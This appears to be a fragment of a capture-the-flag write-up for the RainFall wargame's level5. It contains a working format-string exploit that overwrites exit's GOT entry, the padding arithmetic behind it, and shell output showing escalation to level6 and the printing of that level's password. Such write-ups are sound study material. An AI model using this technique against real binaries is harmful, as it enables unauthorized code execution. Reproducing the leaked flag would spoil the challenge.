 exit = 0x08049838
   o = 0x080484a4

4 0xa4 164 > 4+4+4+4+x             = 164 (0xa4)  x=148
3 0x84 132 > 4+4+4+4+148+x         = 388 (0x184) x=224
2 0x04   4 > 4+4+4+4+148+224+x     = 516 (0x204) x=128
1 0x08   8 > 4+4+4+4+148+224+128+x = 520 (0x208) x=4

level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "\x39\x98\x04\x08" + "\x3a\x98\x04\x08" + "\x3b\x98\x04\x08" + "%1$148x%4$n"+ "%1$224x%5$n" + "%1$128x%6$n" + "%1$4x%7$n"'; cat -) | ./level5
89:;                                                                                                                                                 200                                                                                                                                                                                                                             200                                                                                                                             200 200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
